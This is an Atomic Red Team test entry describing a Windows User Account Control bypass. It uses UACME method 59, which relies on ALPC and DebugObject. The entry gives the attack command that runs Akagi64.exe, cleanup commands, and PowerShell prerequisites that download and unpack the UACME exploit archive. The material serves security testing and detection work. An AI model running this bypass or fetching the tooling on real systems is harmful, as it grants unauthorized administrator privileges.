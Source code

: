 ## Atomic Test #16 - UACME Bypass Method 59
Executes User Account Control Bypass according to the methods listed below. Upon successful execution you should see event viewer load and two administrative command prompts.
Note: The cleanup_command's which kill the spawned cmd and event viewer processes only work if run as admin.

Author: James Forshaw

Type:	AppInfo ALPC

Method: RAiLaunchAdminProcess and DebugObject

Target:	Attacker defined

Component:	Attacker defined

Implementation:	ucmDebugObjectMethod

UCM Method:	UacMethodDebugObject

https://github.com/hfiref0x/UACME

**Supported Platforms:** Windows


**auto_generated_guid:** dfb1b667-4bb8-4a63-a85e-29936ea75f29





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| uacme_exe | Path to uacme executable | path | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;uacme&#92;59 Akagi64.exe|


#### Attack Commands: Run with `command_prompt`! 


```cmd
"#{uacme_exe}"
```

#### Cleanup Commands:
```cmd
powershell Stop-Process -Name cmd -Force -ErrorAction Ignore
powershell Stop-Process -Name mmc -Force -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: UACME executable must exist on disk at specified location ("#{uacme_exe}")
##### Check Prereq Commands:
```powershell
$tempPath = cmd /c echo #{uacme_exe}
if (Test-Path "$tempPath") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1548.002/bin/uacme.zip" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\uacme.zip"
Expand-Archive "PathToAtomicsFolder\..\ExternalPayloads\uacme.zip" "PathToAtomicsFolder\..\ExternalPayloads\uacme" -Force
Remove-Item "PathToAtomicsFolder\..\ExternalPayloads\uacme.zip" -Force
```
